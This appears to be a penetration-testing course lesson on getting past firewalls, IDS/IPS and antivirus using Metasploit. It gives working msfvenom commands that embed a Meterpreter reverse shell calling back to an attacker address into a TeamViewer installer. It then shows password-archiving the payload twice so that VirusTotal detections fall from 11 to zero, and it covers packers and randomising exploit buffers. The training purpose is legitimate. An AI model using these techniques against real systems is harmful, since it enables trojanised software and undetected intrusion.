While not all of these categories above might have the words "Security Policy" attached to them, all of the security mechanisms around them operate on the same basic principle, the `allow` and `deny` entries. The only difference is the object target they refer to and apply to. So the question remains, how do we match events in the network with these rules so that the actions mentioned earlier can be taken?

There are multiple ways to match an event or object with a security policy entry:

| **Security Policy**                         | **Description**                                                                                                                                                                                                                                                                                                                   |
| ------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Signature-based Detection`                 | The operation of packets in the network and comparison with pre-built and pre-ordained attack patterns known as signatures. Any 100% match against these signatures will generate alarms.                                                                                                                                         |
| `Heuristic / Statistical Anomaly Detection` | Behavioral comparison against an established baseline included modus-operandi signatures for known APTs (Advanced Persistent Threats). The baseline will identify the norm for the network and what protocols are commonly used. Any deviation from the maximum threshold will generate alarms.                                   |
| `Stateful Protocol Analysis Detection`      | Recognizing the divergence of protocols stated by event comparison using pre-built profiles of generally accepted definitions of non-malicious activity.                                                                                                                                                                          |
| `Live-monitoring and Alerting (SOC-based)`  | A team of analysts in a dedicated, in-house, or leased SOC (Security Operations Center) use live-feed software to monitor network activity and intermediate alarming systems for any potential threats, either deciding themselves if the threat should be actioned upon or letting the automated mechanisms take action instead. |

***

### Evasion Techniques

Most host-based anti-virus software nowadays relies mainly on `Signature-based Detection` to identify aspects of malicious code present in a software sample. These signatures are placed inside the Antivirus Engine, where they are subsequently used to scan storage space and running processes for any matches. When a piece of unknown software lands on a partition and is matched by the Antivirus software, most Anti-viruses quarantine the malicious program and kill the running process.

How do we circumvent all this heat? We play along with it. The examples shown in the `Encoders` section show that simply encoding payloads using different encoding schemes with multiple iterations is not enough for all AV products. Moreover, merely establishing a channel of communication between the attacker and the victim can raise some alarms with the current capabilities of IDS/IPS products out there.

However, with the MSF6 release, msfconsole can tunnel AES-encrypted communication from any Meterpreter shell back to the attacker host, successfully encrypting the traffic as the payload is sent to the victim host. This mostly takes care of the network-based IDS/IPS. In some rare cases, we might be met with very strict traffic rulesets that flag our connection based on the sender's IP address. The only way to circumvent this is to find the services being let through. An excellent example of this would be the Equifax hack of 2017, where malicious hackers have abused the Apache Struts vulnerability to access a network of critical data servers. DNS exfiltration techniques were used to slowly siphon data out of the network and into the hackers' domain without being noticed for months. To learn more about this attack, visit the links below:

* [US Government Post-Mortem Report on the Equifax Hack](https://www.zdnet.com/article/us-government-releases-post-mortem-report-on-equifax-hack/)
* [Protecting from DNS Exfiltration](https://www.darkreading.com/risk/tips-to-protect-the-dns-from-data-exfiltration/a/d-id/1330411)
* [Stopping Data Exfil and Malware Spread through DNS](https://channelpostmea.com/wp-content/uploads/2017/08/infoblox-whitepaper-data-exfiltration-and-dns-closing-the-back-door.pdf)

Returning to msfconsole, its capability to now sustain AES-encrypted tunnels, together with Meterpreter's feature of running in memory, raises our capability by a margin. However, we still have the issue of what happens to a payload once it reaches its destination, before it is run and placed into memory. This file could be fingerprinted for its signature, matched against the database, and blocked, together with our chances of accessing the target. We can also be sure that AV software developers are looking at msfconsole modules and capabilities to add the resulting code and files to their signature database, resulting in most if not all of the default payloads being immediately shut down by AV software nowadays.

We are in luck because `msfvenom` offers the option of using executable templates. This allows us to use some pre-set templates for executable files, inject our payload into them (no pun intended), and use `any` executable as a platform from which we can launch our attack. We can embed the shellcode into any installer, package, or program that we have at hand, hiding the payload shellcode deep within the legitimate code of the actual product. This greatly obfuscates our malicious code and, more importantly, lowers our detection chances. There are many valid combinations between actual, legitimate executable files, our different encoding schemes (and their iterations), and our different payload shellcode variants. This generates what is called a backdoored executable.

Take a look at the snippet below to understand how msfvenom can embed payloads into any executable file:

Firewall and IDS/IPS Evasion

```shell-session
harshitp0tter@htb[/htb]$ msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe -i 5

Attempting to read payload from STDIN...
Found 1 compatible encoders
Attempting to encode payload with 5 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 27 (iteration=0)
x86/shikata_ga_nai succeeded with size 54 (iteration=1)
x86/shikata_ga_nai succeeded with size 81 (iteration=2)
x86/shikata_ga_nai succeeded with size 108 (iteration=3)
x86/shikata_ga_nai succeeded with size 135 (iteration=4)
x86/shikata_ga_nai chosen with final size 135
Payload size: 135 bytes
Saved as: /home/user/Desktop/TeamViewer_Setup.exe
```

Firewall and IDS/IPS Evasion

```shell-session
harshitp0tter@htb[/htb]$ ls

Pictures-of-cats.tar.gz  TeamViewer_Setup.exe  Cake_recipes
```

For the most part, when a target launches a backdoored executable, nothing will appear to happen, which can raise suspicions in some cases. To improve our chances, we need to trigger the continuation of the normal execution of the launched application while pulling the payload in a separate thread from the main application. We do so with the `-k` flag as it appears above. However, even with the `-k` flag running, the target will only notice the running backdoor if they launch the backdoored executable template from a CLI environment. If they do so, a separate window will pop up with the payload, which will not close until we finish running the payload session interaction on the target.

***

### Archives

Archiving a piece of information such as a file, folder, script, executable, picture, or document and placing a password on the archive bypasses a lot of common anti-virus signatures today. However, the downside of this process is that they will be raised as notifications in the AV alarm dashboard as being unable to be scanned due to being locked with a password. An administrator can choose to manually inspect these archives to determine if they are malicious or not.

**Generating Payload**

Firewall and IDS/IPS Evasion

```shell-session
harshitp0tter@htb[/htb]$ msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -e x86/shikata_ga_nai -a x86 --platform windows -o ~/test.js -i 5

Attempting to read payload from STDIN...
Found 1 compatible encoders
Attempting to encode payload with 5 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 27 (iteration=0)
x86/shikata_ga_nai succeeded with size 54 (iteration=1)
x86/shikata_ga_nai succeeded with size 81 (iteration=2)
x86/shikata_ga_nai succeeded with size 108 (iteration=3)
x86/shikata_ga_nai succeeded with size 135 (iteration=4)
x86/shikata_ga_nai chosen with final size 135
Payload size: 135 bytes
Saved as: /home/user/test.js
```

Firewall and IDS/IPS Evasion

```shell-session
harshitp0tter@htb[/htb]$ cat test.js

�+n"����t$�G4ɱ1zz��j�V6����ic��o�Bs>��Z*�����9vt��%��1�
<...SNIP...>
�Qa*���޴��RW�%Š.\�=;.l�T���XF���T��
```

If we check against VirusTotal to get a detection baseline from the payload we generated, the results will be the following.

**VirusTotal**

Firewall and IDS/IPS Evasion

```shell-session
harshitp0tter@htb[/htb]$ msf-virustotal -k <API key> -f test.js 

[*] WARNING: When you upload or otherwise submit content, you give VirusTotal
[*] (and those we work with) a worldwide, royalty free, irrevocable and transferable
[*] licence to use, edit, host, store, reproduce, modify, create derivative works,
[*] communicate, publish, publicly perform, publicly display and distribute such
[*] content. To read the complete Terms of Service for VirusTotal, please go to the
[*] following link:
[*] https://www.virustotal.com/en/about/terms-of-service/
[*] 
[*] If you prefer your own API key, you may obtain one at VirusTotal.

[*] Enter 'Y' to acknowledge: Y


[*] Using API key: <API key>
[*] Please wait while I upload test.js...
[*] VirusTotal: Scan request successfully queued, come back later for the report
[*] Sample MD5 hash    : 35e7687f0793dc3e048d557feeaf615a
[*] Sample SHA1 hash   : f2f1c4051d8e71df0741b40e4d91622c4fd27309
[*] Sample SHA256 hash : 08799c1b83de42ed43d86247ebb21cca95b100f6a45644e99b339422b7b44105
[*] Analysis link: https://www.virustotal.com/gui/file/<SNIP>/detection/f-<SNIP>-1652167047
[*] Requesting the report...
[*] Received code 0. Waiting for another 60 seconds...
[*] Analysis Report: test.js (11 / 59): <...SNIP...>
====================================================================================================

 Antivirus             Detected  Version               Result                             Update
 ---------             --------  -------               ------                             ------
 ALYac                 true      1.1.3.1               Exploit.Metacoder.Shikata.Gen      20220510
 AVG                   true      21.1.5827.0           Win32:ShikataGaNai-A [Trj]         20220510
 Acronis               false     1.2.0.108                                                20220426
 Ad-Aware              true      3.0.21.193            Exploit.Metacoder.Shikata.Gen      20220510
 AhnLab-V3             false     3.21.3.10230                                             20220510
 Antiy-AVL             false     3.0                                                      20220510
 Arcabit               false     1.0.0.889                                                20220510
 Avast                 true      21.1.5827.0           Win32:ShikataGaNai-A [Trj]         20220510
 Avira                 false     8.3.3.14                                                 20220510
 Baidu                 false     1.0.0.2                                                  20190318
 BitDefender           true      7.2                   Exploit.Metacoder.Shikata.Gen      20220510
 BitDefenderTheta      false     7.2.37796.0                                              20220428
 Bkav                  false     1.3.0.9899                                               20220509
 CAT-QuickHeal         false     14.00                                                    20220510
 CMC                   false     2.10.2019.1                                              20211026
 ClamAV                true      0.105.0.0             Win.Trojan.MSShellcode-6360729-0   20220509
 Comodo                false     34607                                                    20220510
 Cynet                 false     4.0.0.27                                                 20220510
 Cyren                 false     6.5.1.2                                                  20220510
 DrWeb                 false     7.0.56.4040                                              20220510
 ESET-NOD32            false     25243                                                    20220510
 Emsisoft              true      2021.5.0.7597         Exploit.Metacoder.Shikata.Gen (B)  20220510
 F-Secure              false     18.10.978.51                                             20220510
 FireEye               true      35.24.1.0             Exploit.Metacoder.Shikata.Gen      20220510
 Fortinet              false     6.2.142.0                                                20220510
 GData                 true      A:25.33002B:27.27300  Exploit.Metacoder.Shikata.Gen      20220510
 Gridinsoft            false     1.0.77.174                                               20220510
 Ikarus                false     6.0.24.0                                                 20220509
 Jiangmin              false     16.0.100                                                 20220509
 K7AntiVirus           false     12.12.42275                                              20220510
 K7GW                  false     12.12.42275                                              20220510
 Kaspersky             false     21.0.1.45                                                20220510
 Kingsoft              false     2017.9.26.565                                            20220510
 Lionic                false     7.5                                                      20220510
 MAX                   true      2019.9.16.1           malware (ai score=89)              20220510
 Malwarebytes          false     4.2.2.27                                                 20220510
 MaxSecure             false     1.0.0.1                                                  20220510
 McAfee                false     6.0.6.653                                                20220510
 McAfee-GW-Edition     false     v2019.1.2+3728                                           20220510
 MicroWorld-eScan      true      14.0.409.0            Exploit.Metacoder.Shikata.Gen      20220510
 Microsoft             false     1.1.19200.5                                              20220510
 NANO-Antivirus        false     1.0.146.25588                                            20220510
 Panda                 false     4.6.4.2                                                  20220509
 Rising                false     25.0.0.27                                                20220510
 SUPERAntiSpyware      false     5.6.0.1032                                               20220507
 Sangfor               false     2.14.0.0                                                 20220507
 Sophos                false     1.4.1.0                                                  20220510
 Symantec              false     1.17.0.0                                                 20220510
 TACHYON               false     2022-05-10.02                                            20220510
 Tencent               false     1.0.0.1                                                  20220510
 TrendMicro            false     11.0.0.1006                                              20220510
 TrendMicro-HouseCall  false     10.0.0.1040                                              20220510
 VBA32                 false     5.0.0                                                    20220506
 ViRobot               false     2014.3.20.0                                              20220510
 VirIT                 false     9.5.191                                                  20220509
 Yandex                false     5.5.2.24                                                 20220428
 Zillya                false     2.0.0.4627                                               20220509
 ZoneAlarm             false     1.0                                                      20220510
 Zoner                 false     2.2.2.0                                                  20220509
```

Now, try archiving it two times, passwording both archives upon creation, and removing the `.rar`/`.zip`/`.7z` extension from their names. For this purpose, we can install the [RAR utility](https://www.rarlab.com/download.htm) from RARLabs, which works precisely like WinRAR on Windows.

**Archiving the Payload**

Firewall and IDS/IPS Evasion

```shell-session
harshitp0tter@htb[/htb]$ wget https://www.rarlab.com/rar/rarlinux-x64-612.tar.gz
harshitp0tter@htb[/htb]$ tar -xzvf rarlinux-x64-612.tar.gz && cd rar
harshitp0tter@htb[/htb]$ rar a ~/test.rar -p ~/test.js

Enter password (will not be echoed): ******
Reenter password: ******

RAR 5.50   Copyright (c) 1993-2017 Alexander Roshal   11 Aug 2017
Trial version             Type 'rar -?' for help
Evaluation copy. Please register.

Creating archive test.rar
Adding    test.js                                                     OK 
Done
```

Firewall and IDS/IPS Evasion

```shell-session
harshitp0tter@htb[/htb]$ ls

test.js   test.rar
```

**Removing the .RAR Extension**

Firewall and IDS/IPS Evasion

```shell-session
harshitp0tter@htb[/htb]$ mv test.rar test
harshitp0tter@htb[/htb]$ ls

test   test.js
```

**Archiving the Payload Again**

Firewall and IDS/IPS Evasion

```shell-session
harshitp0tter@htb[/htb]$ rar a test2.rar -p test

Enter password (will not be echoed): ******
Reenter password: ******

RAR 5.50   Copyright (c) 1993-2017 Alexander Roshal   11 Aug 2017
Trial version             Type 'rar -?' for help
Evaluation copy. Please register.

Creating archive test2.rar
Adding    test                                                        OK 
Done
```

**Removing the .RAR Extension**

Firewall and IDS/IPS Evasion

```shell-session
harshitp0tter@htb[/htb]$ mv test2.rar test2
harshitp0tter@htb[/htb]$ ls

test   test2   test.js
```

The test2 file is the final .rar archive with the extension (.rar) deleted from the name. After that, we can proceed to upload it on VirusTotal for another check.

**VirusTotal**

Firewall and IDS/IPS Evasion

```shell-session
harshitp0tter@htb[/htb]$ msf-virustotal -k <API key> -f test2

[*] Using API key: <API key>
[*] Please wait while I upload test2...
[*] VirusTotal: Scan request successfully queued, come back later for the report
[*] Sample MD5 hash    : 2f25eeeea28f737917e59177be61be6d
[*] Sample SHA1 hash   : c31d7f02cfadd87c430c2eadf77f287db4701429
[*] Sample SHA256 hash : 76ec64197aa2ac203a5faa303db94f530802462e37b6e1128377315a93d1c2ad
[*] Analysis link: https://www.virustotal.com/gui/file/<SNIP>/detection/f-<SNIP>-1652167804
[*] Requesting the report...
[*] Received code 0. Waiting for another 60 seconds...
[*] Received code -2. Waiting for another 60 seconds...
[*] Received code -2. Waiting for another 60 seconds...
[*] Received code -2. Waiting for another 60 seconds...
[*] Received code -2. Waiting for another 60 seconds...
[*] Received code -2. Waiting for another 60 seconds...
[*] Analysis Report: test2 (0 / 49): 76ec64197aa2ac203a5faa303db94f530802462e37b6e1128377315a93d1c2ad
=================================================================================================

 Antivirus             Detected  Version         Result  Update
 ---------             --------  -------         ------  ------
 ALYac                 false     1.1.3.1                 20220510
 Acronis               false     1.2.0.108               20220426
 Ad-Aware              false     3.0.21.193              20220510
 AhnLab-V3             false     3.21.3.10230            20220510
 Antiy-AVL             false     3.0                     20220510
 Arcabit               false     1.0.0.889               20220510
 Avira                 false     8.3.3.14                20220510
 BitDefender           false     7.2                     20220510
 BitDefenderTheta      false     7.2.37796.0             20220428
 Bkav                  false     1.3.0.9899              20220509
 CAT-QuickHeal         false     14.00                   20220510
 CMC                   false     2.10.2019.1             20211026
 ClamAV                false     0.105.0.0               20220509
 Comodo                false     34606                   20220509
 Cynet                 false     4.0.0.27                20220510
 Cyren                 false     6.5.1.2                 20220510
 DrWeb                 false     7.0.56.4040             20220510
 ESET-NOD32            false     25243                   20220510
 Emsisoft              false     2021.5.0.7597           20220510
 F-Secure              false     18.10.978.51            20220510
 FireEye               false     35.24.1.0               20220510
 Fortinet              false     6.2.142.0               20220510
 Gridinsoft            false     1.0.77.174              20220510
 Jiangmin              false     16.0.100                20220509
 K7AntiVirus           false     12.12.42275             20220510
 K7GW                  false     12.12.42275             20220510
 Kingsoft              false     2017.9.26.565           20220510
 Lionic                false     7.5                     20220510
 MAX                   false     2019.9.16.1             20220510
 Malwarebytes          false     4.2.2.27                20220510
 MaxSecure             false     1.0.0.1                 20220510
 McAfee-GW-Edition     false     v2019.1.2+3728          20220510
 MicroWorld-eScan      false     14.0.409.0              20220510
 NANO-Antivirus        false     1.0.146.25588           20220510
 Panda                 false     4.6.4.2                 20220509
 Rising                false     25.0.0.27               20220510
 SUPERAntiSpyware      false     5.6.0.1032              20220507
 Sangfor               false     2.14.0.0                20220507
 Symantec              false     1.17.0.0                20220510
 TACHYON               false     2022-05-10.02           20220510
 Tencent               false     1.0.0.1                 20220510
 TrendMicro-HouseCall  false     10.0.0.1040             20220510
 VBA32                 false     5.0.0                   20220506
 ViRobot               false     2014.3.20.0             20220510
 VirIT                 false     9.5.191                 20220509
 Yandex                false     5.5.2.24                20220428
 Zillya                false     2.0.0.4627              20220509
 ZoneAlarm             false     1.0                     20220510
 Zoner                 false     2.2.2.0                 20220509
```

As we can see from the above, this is an excellent way to transfer data both `to` and `from` the target host.

***

### Packers

The term `Packer` refers to the result of an `executable compression` process where the payload is packed together with an executable program and with the decompression code in one single file. When run, the decompression code returns the backdoored executable to its original state, allowing for yet another layer of protection against file scanning mechanisms on target hosts. This process takes place transparently for the compressed executable to be run the same way as the original executable while retaining all of the original functionality. In addition, msfvenom provides the ability to compress and change the file structure of a backdoored executable and encrypt the underlying process structure.

A list of popular packer software:

|                                     |                                                     |                                                                                         |
| ----------------------------------- | --------------------------------------------------- | --------------------------------------------------------------------------------------- |
| [UPX packer](https://upx.github.io) | [The Enigma Protector](https://enigmaprotector.com) | [MPRESS](https://web.archive.org/web/20240310213323/https://www.matcode.com/mpress.htm) |
| Alternate EXE Packer                | ExeStealth                                          | Morphine                                                                                |
| MEW                                 | Themida                                             |                                                                                         |

If we want to learn more about packers, please check out the [PolyPack project](https://jon.oberheide.org/files/woot09-polypack.pdf).

***

### Exploit Coding

When coding our exploit or porting a pre-existing one over to the Framework, it is good to ensure that the exploit code is not easily identifiable by security measures implemented on the target system.

For example, a typical `Buffer Overflow` exploit might be easily distinguished from regular traffic traveling over the network due to its hexadecimal buffer patterns. IDS / IPS placements can check the traffic towards the target machine and notice specific overused patterns for exploiting code.

When assembling our exploit code, randomization can help add some variation to those patterns, which will break the IPS / IDS database signatures for well-known exploit buffers. This can be done by inputting an `Offset` switch inside the code for the msfconsole module:

Code: ruby

```ruby
'Targets' =>
[
 	[ 'Windows 2000 SP4 English', { 'Ret' => 0x77e14c29, 'Offset' => 5093 } ],
],
```

Besides the BoF code, one should always avoid using obvious NOP sleds where the shellcode should land after the overflow is completed. Please note that the BoF code's purpose is to crash the service running on the target machine, while the NOP sled is the allocated memory where our shellcode (the payload) is inserted. IPS/IDS entities regularly check both of these, so it is good to test our custom exploit code against a sandbox environment before deploying it on the client network. Of course, we might only have one chance to do this correctly during an assessment.

For more information about exploit coding, we recommend checking out the [Metasploit - The Penetration Tester's Guide](https://nostarch.com/metasploit) book from No Starch Press. They delve into quite some detail about creating our exploits for the Framework.

***

Intrusion Prevention Systems and Antivirus Engines are the most common defender tools that can shoot down an initial foothold on the target. These mainly function on signatures of the whole malicious file or the stub stage.

***

### A Note on Evasion

This section covers evasion at a high level. Be on the lookout for later modules that will dig deeper into the theory and practical knowledge needed to perform evasion more effectively. It is worth trying some of these techniques out on older HTB machines or installing a VM with older versions of Windows Defender or free AV engines, and practicing evasion skills. This is a vast topic that cannot be covered adequately in a single section.
